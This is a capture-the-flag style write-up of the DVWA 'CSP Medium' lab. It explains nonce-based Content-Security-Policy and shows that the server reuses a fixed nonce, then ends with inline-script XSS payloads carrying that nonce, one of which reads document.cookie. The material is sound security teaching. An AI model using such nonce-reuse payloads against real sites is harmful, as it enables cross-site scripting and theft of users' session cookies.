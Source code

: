 #+TITLE: DVWA - CSP Medium
#+AUTHOR: Leonardo Tamiano

* Description
  In this medium challenge we have the following CSP header

  #+begin_example
$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";
  #+end_example

  Notice now that we have added the ~unsafe-inline~. This is used to
  allow inline scripts and styles. We also have a ~nonce-source~
  specified. This nonce must be generated using a cryptographically
  secure random token generator and must change dynamically and be
  unique for each HTTP request. Then, within the inline script, you
  must specify it.

  For example, upon th following HTTP response

  #+begin_example
Content-Security-Policy: script-src 'nonce-2726c7f26c'
  #+end_example

  We need to include the smae nonce in the script element

  #+begin_src html
<script nonce="2726c7f26c">
  const inline = 1;
  // …
</script>
  #+end_src
  
* Solution
  The problem in this levle is that the nonce does not change as it
  should per every request. This means that we can see the hard-coded
  value given in the HTTP response

  #+begin_example
HTTP/1.1 200 OK
Date: Sat, 11 Nov 2023 11:24:35 GMT
Server: Apache/2.4.25 (Debian)
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
X-XSS-Protection: 0
Vary: Accept-Encoding
Content-Length: 4220
Connection: close
Content-Type: text/html;charset=utf-8
  #+end_example  

  #+begin_example
HTTP/1.1 200 OK
Date: Sat, 11 Nov 2023 11:24:36 GMT
Server: Apache/2.4.25 (Debian)
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';
X-XSS-Protection: 0
Vary: Accept-Encoding
Content-Length: 4220
Connection: close
Content-Type: text/html;charset=utf-8
  #+end_example

  Notice how the nonces do not change in the two responses. We can
  therefore make the server execute any javascript code by including
  the same nonce

  #+begin_src html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA="> alert(1); </script>
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA="> alert(document.cookie) </script>
  #+end_src
